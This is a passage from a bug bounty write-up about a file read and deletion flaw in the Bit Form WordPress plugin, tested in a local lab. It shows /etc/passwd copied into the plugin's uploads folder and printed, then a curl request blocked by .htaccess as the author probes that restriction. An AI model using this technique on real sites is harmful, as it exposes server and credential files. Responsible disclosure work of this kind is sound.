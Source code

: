![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240822202928.png)

```shell
root@9e2f4f189063:/var/www/html# ls -lah wp-content/uploads/bitforms/uploads/1/
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Aug 22 12:29 .
drwxr-xr-x 3 www-data www-data 4.0K Aug 22 11:59 ..
-rw-r--r-- 1 www-data www-data  922 Aug 22 12:29 1
root@9e2f4f189063:/var/www/html# head wp-content/uploads/bitforms/uploads/1/1
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```

Nice! Can we read this copied file?

```shell
┌[siunam♥Mercury]-(~/bug-bounty/Wordfence/PoC/bit-form/file-read-deletion)-[2024.08.22|20:30:41(HKT)]
└> curl http://localhost/wp-content/uploads/bitforms/uploads/1/1
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.54 (Debian) Server at localhost Port 80</address>
</body></html>
```

Huh? It returns HTTP status code "403 Forbidden". Since I'm using Apache HTTP server, maybe there's a [`.htaccess` file](https://httpd.apache.org/docs/trunk/howto/htaccess.html) to restrict users being accessing that directory's files?

If we list all the hidden files at directory `/var/www/html/wp-content/uploads/bitforms/uploads/`, there's a `.htaccess` file:

```shell
root@9e2f4f189063:/var/www/html# ls -lah wp-content/uploads/bitforms/uploads/
total 20K
drwxr-xr-x 3 www-data www-data 4.0K Aug 22 11:59 .
drwxr-xr-x 5 www-data www-data 4.0K Aug 22 08:52 ..
-rw-r--r-- 1 www-data www-data  220 Aug 22 08:21 .htaccess
drwxr-xr-x 2 www-data www-data 4.0K Aug 22 12:29 1
-rw-r--r-- 1 www-data www-data    6 Aug 22 08:21 index.php
```
